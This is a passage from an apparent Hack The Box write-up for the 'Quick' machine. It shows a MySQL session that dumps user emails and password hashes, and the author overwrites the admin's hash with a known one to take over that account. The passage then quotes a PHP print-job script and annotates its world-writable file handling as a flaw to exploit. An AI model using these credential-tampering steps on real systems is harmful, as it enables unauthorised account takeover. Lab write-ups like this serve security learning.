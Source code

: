 ~~~
+-----------------+
| jobs            |
| tickets         |
| users           |
+-----------------+
3 rows in set (0.00 sec)

mysql> select * from users;
+--------------+------------------+----------------------------------+
| name         | email            | password                         |
+--------------+------------------+----------------------------------+
| Elisa        | elisa@wink.co.uk | c6c35ae1f3cb19438e0199cfa72a9d9d |
| Server Admin | srvadm@quick.htb | e626d51f8fbfd1124fdea88396c35d05 |
+--------------+------------------+----------------------------------+
2 rows in set (0.00 sec)

mysql> 

~~~
{: .language-bash}

Instead of cracking the hash, i set the password to the same as Elisa's wich we know from the PDF erlier.
~~~
mysql> Update users SET password="c6c35ae1f3cb19438e0199cfa72a9d9d" where name="Server Admin";
Query OK, 1 row affected (0.00 sec)
Rows matched: 1  Changed: 1  Warnings: 0

mysql> select * from users;
+--------------+------------------+----------------------------------+
| name         | email            | password                         |
+--------------+------------------+----------------------------------+
| Elisa        | elisa@wink.co.uk | c6c35ae1f3cb19438e0199cfa72a9d9d |
| Server Admin | srvadm@quick.htb | c6c35ae1f3cb19438e0199cfa72a9d9d |
+--------------+------------------+----------------------------------+
2 rows in set (0.00 sec)

~~~
{: .language-bash}

Now i was able to login to the printerv2-page, and discover a page with basic functionality to add a printer and print on it. Looking in the */var/www/printer/* directory, i find a file called *job.php* 
I added comments to the relevant lines in the snippet below.

~~~
---snip---
if($_SESSION["loggedin"])                                                                                            
{                                                                                                                    
        if(isset($_POST["submit"]))                 
        {                                       
                $title=$_POST["title"];        
                $file = date("Y-m-d_H:i:s");   # Creates a file named the current date and time
                file_put_contents("/var/www/jobs/".$file,$_POST["desc"]); # Puts the file in the directory /var/www/jobs
                chmod("/var/www/printer/jobs/".$file,"0777");  # Gives full rwx-rights to all users before printing it                                                      
                $stmt=$conn->prepare("select ip,port from jobs");                                                    
                $stmt->execute();    
                
    ---snip---
~~~